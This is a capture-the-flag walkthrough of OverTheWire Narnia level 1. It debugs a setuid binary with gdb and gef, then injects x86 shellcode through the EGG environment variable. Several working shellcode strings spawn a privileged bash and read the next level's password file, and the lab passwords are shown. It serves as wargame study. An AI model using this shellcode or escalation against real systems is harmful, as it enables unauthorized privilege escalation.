


# Narnia Level 0 → Level 1 Shell Injection & gdb/gef 🧠🧠🧠🧠🧠

## Previous Flag
<b>WDcYUTG5ul</b>

## Goal
Use previous password to log in SSH with user <b>narnia1</b> and port <b>2226</b> accessed on narnia.labs.overthewire.org.

There is no information for this level, intentionally.




## What I learned
```
C Program Language
    int (*ret)();       // A pointer to a fx that takes an unspecified number of arguments and returns an int
    int *ret();         // A Function that returns int*
    int *ret            // A pointer to an int that returns address of int

C Example:
#include <stdio.h>
#include <stdlib.h>

// A sample function to use for the function pointer
int hello_function() {
    printf("Hello from hello_function!\n");
    return 42;
}

// Function that returns an int pointer
int* return_int_pointer() {
    static int x = 99;                      // static, stays in memory after fx returns
    return &x;
}

int main() {
    // int (*ret_func_ptr)();               Pointer to a function that takes unspecified args and returns int
    int (*ret_func_ptr)();
    ret_func_ptr = hello_function;          // Assign address of the function
    int result = ret_func_ptr();            // Call it via the pointer
    printf("Function pointer returned: %d\n\n", result);

    // int *ret_func_returning_ptr();       A function that returns int*
    int *ptr_from_func = return_int_pointer();
    printf("Function returning int*: %d\n\n", *ptr_from_func);

    // int *ret_ptr_to_int;                 A pointer to an int
    int my_num = 1234;
    int *ret_ptr_to_int = &my_num;          // Assign address of int
    printf("Pointer to int points to: %d\n", *ret_ptr_to_int);

    return 0;
}

https://shell-storm.org/shellcode/index.html        different OS shellcodes

# How raw shellcode is created and obtained
# Writing assembly code/instructions to spawn a shell or open a reverse TCP socket
# Non-Working Example for x86 Linux
xor ecx, ecx        ; zero register
mov cl, 33          ; set counter
loop_start:
   ; do something
jmp somewhere

# Assembly code is assembled into machine code bytes by an assembler like nasm, gas, or tools in a disassembler program
\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01

(gdb) x/24wx $esp ⌨️
    x                           Examine memory
    /24                         Show 24 items
    w                           Optional: Interpret each memory unit as a word (4 bytes on x86)
    x                           Display in hexadecimal
    b                           Optional: 1 byte
    $esp (or $rsp in x86-64)    Starting address is the stack poi

(gdb) p/x $eax ⌨️
$1 = 0x80483a0
    p                           print value of an expression or register

Important: Look at arrow on Left Side in CLI
nexti       ni                  Next instruction, step over calls
stepi       si	                Step into next instruction (step inside calls)

# Other Tools make/find shellcode
msfvenom tool for generating shellcode in various formats
Radare2 includes tools for generating and analyzing shellcode
https://www.exploit-db.com/shellcodes
https://github.com/7feilee/shellcode ❤️❤️❤️❤️❤️ Linux 32bit x86 -bin-sh.c
https://github.com/0xdea/shellcode
https://github.com/binject/shellcode
https://shell-storm.org/shellcode/index.html ❤️❤️❤️❤️❤️

AT&T Syntax Resource:
    https://ftp.gnu.org/old-gnu/Manuals/gas-2.9.1/html_chapter/as_toc.html
    https://docs.oracle.com/cd/E19120-01/open.solaris/817-5477/index.html
    https://sourceware.org/binutils/docs/as/i386_002dDependent.html
    https://stackoverflow.com/tags/att/info
Intel Syntax Resource:
    https://www.felixcloutier.com/x86/ ❤️❤️❤️
```

## Solution
```
PS C:\Users\trung.DESKTOP-G7C81CH\Downloads\01noobHacker> ssh narnia1@narnia.labs.overthewire.org -p 2226 ⌨️
narnia1@narnia:~$ cd /narnia/ ⌨️
narnia1@narnia:/narnia$ file narnia1 ⌨️
narnia1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=21fddcd93fcd02a25ca3910950aa9760890721dc, for GNU/Linux 3.2.0, not stripped
narnia1@narnia:/narnia$ cat narnia1.c ⌨️
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or   
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,     
   but WITHOUT ANY WARRANTY; without even the implied warranty of      
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the       
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
   */
#include <stdio.h>

int main(){
    int (*ret)();                               // function pointer declaration

    if(getenv("EGG")==NULL){                    // if env variable EGG is NULL, exit
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}

narnia1@narnia:/narnia$ ./narnia1 ⌨️
Give me something to execute at the env-variable EGG
narnia1@narnia:/narnia$ printenv | grep -e "EGG" ⌨️       # env | grep -e "EGG"

# Debugging and Analysis
narnia1@narnia:/narnia$ EGG=ls ⌨️                         # Create/Modify a shell variable
narnia1@narnia:/narnia$ printenv | grep -e "EGG" ⌨️
narnia1@narnia:/narnia$ export EGG ⌨️                     # Make it an environment variable visible to child processes
narnia1@narnia:/narnia$ printenv | grep -e "EGG" ⌨️       # Note: if not export not be in env list
EGG=ls
narnia1@narnia:/narnia$ unset EGG ⌨️
narnia1@narnia:/narnia$ printenv | grep -e "EGG" ⌨️
narnia1@narnia:/narnia$ export EGG=ls ⌨️                  # Shortcut
narnia1@narnia:/narnia$ ./narnia1 ⌨️
Trying to execute EGG!
Segmentation fault (core dumped) 👀                       # Broke, need debug NOW!

# Segmentation fault use gdb to load binary
narnia1@narnia:/narnia$ gdb narnia1 ⌨️⭐
GNU gdb (Ubuntu 15.0.50.20240403-0ubuntu1) 15.0.50.20240403-git
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
--Type <RET> for more, q to quit, c to continue without paging--c ⌨️
Reading symbols from narnia1...
Enable debuginfod for this session? (y or [n]) y ⌨️
Debuginfod has been enabled.
To make this setting permanent, add 'set debuginfod enabled on' to .gdbinit.
Download failed: Permission denied.  Continuing without separate debug info for /narnia/narnia1.
(No debugging symbols found in narnia1)
(gdb) disassemble main ⌨️❤️                   # Note: AT&T syntax since has % (I like intel syntax)
Dump of assembler code for function main:      # Important: AT&T Source/Dest opposite to ARM/LEGv8
   0x08049186 <+0>:     push   %ebp            # All x86 instructions setup base pointer for stack                          
   0x08049187 <+1>:     mov    %esp,%ebp       # base pointer set to stack pointer, ebp = esp 
   0x08049189 <+3>:     sub    $0x4,%esp       # Setting up stack we can ignore most the time
   0x0804918c <+6>:     push   $0x804a008      # We interested in the labels <getevn@plt>
   0x08049191 <+11>:    call   0x8049040 <getenv@plt>   # call to getenv() fx
   0x08049196 <+16>:    add    $0x4,%esp
   0x08049199 <+19>:    test   %eax,%eax                # testing to see if value called is null
   0x0804919b <+21>:    jne    0x80491b1 <main+43>      # if not equal to NULL jump to line 43
   0x0804919d <+23>:    push   $0x804a00c               # else push value onto stack, x/s 0x804a00c (examine string)
   0x080491a2 <+28>:    call   0x8049050 <puts@plt>     
   0x080491a7 <+33>:    add    $0x4,%esp
   0x080491aa <+36>:    push   $0x1
   0x080491ac <+38>:    call   0x8049060 <exit@plt>
   0x080491b1 <+43>:    push   $0x804a041               # push value onto stack, x/s 0x804a041 "Trying to execute EGG!"
   0x080491b6 <+48>:    call   0x8049050 <puts@plt>
   0x080491bb <+53>:    add    $0x4,%esp
   0x080491be <+56>:    push   $0x804a008
--Type <RET> for more, q to quit, c to continue without paging-- ⌨️
   0x080491c3 <+61>:    call   0x8049040 <getenv@plt>       # break *0x080491c3 then x/24wx $esp
   0x080491c8 <+66>:    add    $0x4,%esp                    # then x/24wx $ebp
   0x080491cb <+69>:    mov    %eax,-0x4(%ebp)              # Assigns data in “EGG” to EAX registerinfo
   0x080491ce <+72>:    mov    -0x4(%ebp),%eax
   0x080491d1 <+75>:    call   *%eax                        # where we call fx protocol, 👀 break *0x080491d1
   0x080491d3 <+77>:    mov    $0x0,%eax                                                    # break *main+75
   0x080491d8 <+82>:    leave                   # base pointer rm from stack
   0x080491d9 <+83>:    ret
End of assembler dump.
(gdb) shell clear ⌨️❤️
(gdb) set disassembly-flavor intel ⌨️❤️❤️❤️❤️❤️
(gdb) disassemble main ⌨️
Dump of assembler code for function main:                   # Important: intel Dest/Source opposite to ARM/LEGv8
   0x08049186 <+0>:     push   ebp
   0x08049187 <+1>:     mov    ebp,esp                      # Notice diff than ATT Source/Dest, ebp = esp 
   0x08049189 <+3>:     sub    esp,0x4
   0x0804918c <+6>:     push   0x804a008
   0x08049191 <+11>:    call   0x8049040 <getenv@plt>
   0x08049196 <+16>:    add    esp,0x4
   0x08049199 <+19>:    test   eax,eax
   0x0804919b <+21>:    jne    0x80491b1 <main+43>   
   0x0804919d <+23>:    push   0x804a00c
   0x080491a2 <+28>:    call   0x8049050 <puts@plt>  
   0x080491a7 <+33>:    add    esp,0x4
   0x080491aa <+36>:    push   0x1
   0x080491ac <+38>:    call   0x8049060 <exit@plt>  
   0x080491b1 <+43>:    push   0x804a041
--Type <RET> for more, q to quit, c to continue without paging--c ⌨️
   0x080491b6 <+48>:    call   0x8049050 <puts@plt>
   0x080491bb <+53>:    add    esp,0x4
   0x080491be <+56>:    push   0x804a008
   0x080491c3 <+61>:    call   0x8049040 <getenv@plt>
   0x080491c8 <+66>:    add    esp,0x4
   0x080491cb <+69>:    mov    DWORD PTR [ebp-0x4],eax
   0x080491ce <+72>:    mov    eax,DWORD PTR [ebp-0x4]
   0x080491d1 <+75>:    call   eax
   0x080491d3 <+77>:    mov    eax,0x0
   0x080491d8 <+82>:    leave
   0x080491d9 <+83>:    ret
End of assembler dump.
(gdb) set disassembly-flavor att ⌨️           # Switch back to AT&T
(gdb) break *0x080491d1 ⌨️
Breakpoint 1 at 0x80491d1
(gdb) info breakpoints ⌨️
Num     Type           Disp Enb Address    What
1       breakpoint     keep y   0x080491d1 <main+75>
(gdb) disable 1 ⌨️
(gdb) info breakpoints ⌨️
Num     Type           Disp Enb Address    What
1       breakpoint     keep n   0x080491d1 <main+75>
(gdb) enable 1 ⌨️
(gdb) info breakpoints ⌨️
Num     Type           Disp Enb Address    What
1       breakpoint     keep y   0x080491d1 <main+75>
(gdb) run ⌨️
Starting program: /narnia/narnia1 
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Trying to execute EGG!

Breakpoint 1, 0x080491d1 in main ()

# Note: we used command ls but not match cd as in memory (need to set cd)
(gdb) x/25x $eax ⌨️                 # see in hex next 25 values that are set for the eax register
0xffffde72:     0x53006463      0x4c564c48      0x5300313d      0x435f4853
0xffffde82:     0x4e45494c      0x33313d54      0x2e38342e      0x2e363731
0xffffde92:     0x33203936      0x34383337      0x32323220      0x55510036
0xffffdea2:     0x4e49544f      0x54535f47      0x3d454c59      0x6574696c
0xffffdeb2:     0x006c6172      0x55424544      0x464e4947      0x555f444f
0xffffdec2:     0x3d534c52      0x70747468      0x2f2f3a73      0x75626564
0xffffded2:     0x666e6967
(gdb) x/25wx $eax ⌨️
0xffffde71:     0x53006463      0x4c564c48      0x5300313d      0x435f4853
0xffffde81:     0x4e45494c      0x33313d54      0x2e38342e      0x2e363731
0xffffde91:     0x35203936      0x36383930      0x32323220      0x55510036
0xffffdea1:     0x4e49544f      0x54535f47      0x3d454c59      0x6574696c
0xffffdeb1:     0x006c6172      0x55424544      0x464e4947      0x555f444f
0xffffdec1:     0x3d534c52      0x70747468      0x2f2f3a73      0x75626564
0xffffded1:     0x666e6967
(gdb) x/25c $eax ⌨️
0xffffde72:     99 'c'  100 'd' 0 '\000'        83 'S'  72 'H'  76 'L'  86 'V'  76 'L'
0xffffde7a:     61 '='  49 '1'  0 '\000'        83 'S'  83 'S'  72 'H'  95 '_'  67 'C'
0xffffde82:     76 'L'  73 'I'  69 'E'  78 'N'  84 'T'  61 '='  49 '1'  51 '3'
0xffffde8a:     46 '.'
(gdb) x/24x $esp ⌨️
0xffffd424:     0xffffde71      0x00000000      0xf7d9ecb9      0x00000001
0xffffd434:     0xffffd4e4      0xffffd4ec      0xffffd450      0xf7faae34
0xffffd444:     0x0804909d      0x00000001      0xffffd4e4      0xf7faae34
0xffffd454:     0xffffd4ec      0xf7ffcb60      0x00000000      0xfb981f2d
0xffffd464:     0xb7e8953d      0x00000000      0x00000000      0x00000000
0xffffd474:     0xf7ffcb60      0x00000000      0xcbfd1900      0xf7ffda20
(gdb) x/24x $ebp ⌨️
0xffffd428:     0x00000000      0xf7d9ecb9      0x00000001      0xffffd4e4
0xffffd438:     0xffffd4ec      0xffffd450      0xf7faae34      0x0804909d
0xffffd448:     0x00000001      0xffffd4e4      0xf7faae34      0xffffd4ec
0xffffd458:     0xf7ffcb60      0x00000000      0xfb981f2d      0xb7e8953d
0xffffd468:     0x00000000      0x00000000      0x00000000      0xf7ffcb60
0xffffd478:     0x00000000      0xcbfd1900      0xf7ffda20      0xf7d9ec46
(gdb) info registers ⌨️                                                          # i r
eax            0xffffde71          -8591
ecx            0xff000000          -16777216
edx            0x3                 3
ebx            0xf7faae34          -134566348
esp            0xffffd420          0xffffd420
ebp            0xffffd428          0xffffd428
esi            0xffffd4ec          -11028
edi            0xf7ffcb60          -134231200
eip            0xffffde71          0xffffde71
eflags         0x286               [ PF SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
k0             0x0                 0
k1             0x0                 0
k2             0x0                 0
k3             0x0                 0
k4             0x0                 0
k5             0x0                 0
--Type <RET> for more, q to quit, c to continue without paging--c ⌨️
k6             0x0                 0
k7             0x0                 0
(gdb) ni ⌨️
0xffffde75 in ?? ()
(gdb) ni ⌨️
0xffffde76 in ?? ()
(gdb) exit ⌨️
A debugging session is active.

        Inferior 1 [process 787048] will be killed.

Quit anyway? (y or n) y ⌨️
narnia1@narnia:/narnia$ gef ./narnia1 ⌨️❤️❤️❤️❤️❤️
GNU gdb (Ubuntu 15.0.50.20240403-0ubuntu1) 15.0.50.20240403-git
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
gef➤  disassemble main ⌨️
Dump of assembler code for function main:
   0x08049186 <+0>:     push   ebp              # Default is intel syntax
   0x08049187 <+1>:     mov    ebp,esp
   0x08049189 <+3>:     sub    esp,0x4
   0x0804918c <+6>:     push   0x804a008
   0x08049191 <+11>:    call   0x8049040 <getenv@plt> 
   0x08049196 <+16>:    add    esp,0x4
   0x08049199 <+19>:    test   eax,eax
   0x0804919b <+21>:    jne    0x80491b1 <main+43>    
   0x0804919d <+23>:    push   0x804a00c
   0x080491a2 <+28>:    call   0x8049050 <puts@plt>   
   0x080491a7 <+33>:    add    esp,0x4
   0x080491aa <+36>:    push   0x1
   0x080491ac <+38>:    call   0x8049060 <exit@plt>   
   0x080491b1 <+43>:    push   0x804a041
   0x080491b6 <+48>:    call   0x8049050 <puts@plt>   
   0x080491bb <+53>:    add    esp,0x4
   0x080491be <+56>:    push   0x804a008
   0x080491c3 <+61>:    call   0x8049040 <getenv@plt> 
   0x080491c8 <+66>:    add    esp,0x4
   0x080491cb <+69>:    mov    DWORD PTR [ebp-0x4],eax
   0x080491ce <+72>:    mov    eax,DWORD PTR [ebp-0x4]
   0x080491d1 <+75>:    call   eax
   0x080491d3 <+77>:    mov    eax,0x0
   0x080491d8 <+82>:    leave
   0x080491d9 <+83>:    ret
End of assembler dump.
gef➤  break *0x080491d1 ⌨️
Breakpoint 1 at 0x80491d1
gef➤  run ⌨️

[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────── registers ────
$eax   : 0xffffde71  →  0x53006463 ("cd"?)
$ebx   : 0xf7faae34  →  ",\r#"
$ecx   : 0xff000000
$edx   : 0x3
$esp   : 0xffffd424  →  0xffffde71  →  0x53006463 ("cd"?) 👀
$ebp   : 0xffffd428  →  0x00000000
$esi   : 0xffffd4ec  →  0xffffd64f  →  "SHELL=/bin/bash"
$edi   : 0xf7ffcb60  →  0x00000000
$eip   : 0x080491d1  →  <main+004b> call eax
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
───────────────────────────────────────────────────────── stack ────
0xffffd424│+0x0000: 0xffffde71  →  0x53006463 ("cd"?)    ← $esp 👀 next to be executed
0xffffd428│+0x0004: 0x00000000   ← $ebp
0xffffd42c│+0x0008: 0xf7d9ecb9  →  <__libc_start_call_main+0079> add esp, 0x10
0xffffd430│+0x000c: 0x00000001
0xffffd434│+0x0010: 0xffffd4e4  →  0xffffd63f  →  "/narnia/narnia1"
0xffffd438│+0x0014: 0xffffd4ec  →  0xffffd64f  →  "SHELL=/bin/bash"
0xffffd43c│+0x0018: 0xffffd450  →  0xf7faae34  →  ",\r#"
0xffffd440│+0x001c: 0xf7faae34  →  ",\r#"
───────────────────────────────────────────────────── code:x86:32 ────
    0x80491c8 <main+0042>      add    esp, 0x4
    0x80491cb <main+0045>      mov    DWORD PTR [ebp-0x4], eax
    0x80491ce <main+0048>      mov    eax, DWORD PTR [ebp-0x4]
●→  0x80491d1 <main+004b>      call   eax
    0x80491d3 <main+004d>      mov    eax, 0x0
    0x80491d8 <main+0052>      leave
    0x80491d9 <main+0053>      ret
    0x80491da                  add    BYTE PTR [eax], al
    0x80491dc <_fini+0000>     push   ebx
─────────────────────────────────────────────── arguments (guessed) ────
*-0x218f (
   [sp + 0x0] = 0xffffde71 → 0x53006463 ("cd"?),
   [sp + 0x4] = 0x00000000
)
──────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "narnia1", stopped 0x80491d1 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────── trace ────
[#0] 0x80491d1 → main()
─────────────────────────────────────────────────────────────────────────
gef➤  nexti ⌨️

# Find what OS VM using (host is x86_64 bit based OS so any x86 or x86_64 shells is possible)
narnia1@narnia:/narnia$ uname -a ⌨️
Linux gibson-1 6.8.0-1030-aws #32-Ubuntu SMP Wed May 28 19:48:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux

# Shellcode Work: https://shell-storm.org/shellcode/files/shellcode-607.html
# Put shellcode into EGG variable we use python to get hexcode in acceptable format
narnia1@narnia:/narnia$ export EGG=$(printf '\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81') ⌨️
narnia1@narnia:/narnia$ printenv | grep -e "EGG" ⌨️
grep: (standard input): binary file matches
narnia1@narnia:/narnia$ echo -n "$EGG" | hexdump -C ⌨️
00000000  eb 11 5e 31 c9 b1 21 80  6c 0e ff 01 80 e9 01 75  |..^1..!.l......u|
00000010  f6 eb 05 e8 ea ff ff ff  6b 0c 59 9a 53 67 69 2e  |........k.Y.Sgi.|
00000020  71 8a e2 53 6b 69 69 30  63 62 74 69 30 63 6a 6f  |q..Skii0cbti0cjo|
00000030  8a e4 53 52 54 8a e2 ce  81                       |..SRT....|       
00000039
narnia1@narnia:/narnia$ echo -n "$EGG" | base64 ⌨️
6xFeMcmxIYBsDv8BgOkBdfbrBejq////awxZmlNnaS5xiuJTa2lpMGNidGkwY2pviuRTUlSK4s6B
narnia1@narnia:/narnia$ ./narnia1 ⌨️
Trying to execute EGG!
bash-5.2$ id ⌨️
uid=14001(narnia1) gid=14001(narnia1) euid=14002(narnia2) groups=14001(narnia1)
bash-5.2$ cat /etc/narnia_pass/narnia2 ⌨️
5agRAXeBdG 🔐
bash-5.2$ exit ⌨️
exit

# Trying Different Shell Code and using echo -e instead of printf
# Source: https://github.com/7feilee/shellcode/blob/master/Linux/x86/-bin-sh.c
narnia1@narnia:/narnia$ export EGG=$(echo -e "\x99\x6a\x0b\x58\x60\x59\xcd\x80") ⌨️
narnia1@narnia:/narnia$ echo $EGG ⌨️
j
 X`Ỳ
narnia1@narnia:/narnia$ env | grep -e "EGG" ⌨️       # Note: had to restart ssh
grep: (standard input): binary file matches
narnia1@narnia:/narnia$ echo -n "$EGG" | hexdump -C ⌨️
00000000  99 6a 0b 58 60 59 cd 80                           |.j.X`Y..|
00000008
narnia1@narnia:/narnia$ ./narnia1 ⌨️
Trying to execute EGG!
Segmentation fault (core dumped)                    # Note: Didn't like run shell directly find
                                                    # we want -p to set privilege

# Source: https://github.com/7feilee/shellcode/blob/master/Linux/x86/execve(-bin-bash%2C_%5B-bin-sh%2C_-p%5D%2C_NULL).c
narnia1@narnia:/narnia$ export EGG=$(echo -e "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80") ⌨️

# Note: At this point can check $eax register again see if injected the 33 byte code from above (Optional)
narnia1@narnia:/narnia$ env | grep "EGG" ⌨️
grep: (standard input): binary file matches
narnia1@narnia:/narnia$ echo -n "$EGG" | hexdump -C ⌨️
00000000  6a 0b 58 99 52 66 68 2d  70 89 e1 52 6a 68 68 2f  |j.X.Rfh-p..Rjhh/|
00000010  62 61 73 68 2f 62 69 6e  89 e3 52 51 53 89 e1 cd  |bash/bin..RQS...|
00000020  80                                                |.|
00000021
Trying to execute EGG!
bash-5.2$ whoami ⌨️
narnia2
bash-5.2$ id ⌨️
uid=14001(narnia1) gid=14001(narnia1) euid=14002(narnia2) groups=14001(narnia1)
bash-5.2$ cat /etc/narnia_pass/narnia2 ⌨️
5agRAXeBdG 🔐
bash-5.2$ exit ⌨️
exit
```

## Flag
<b>5agRAXeBdG</b>

## Continue
[Continue](./Narnia0102.md)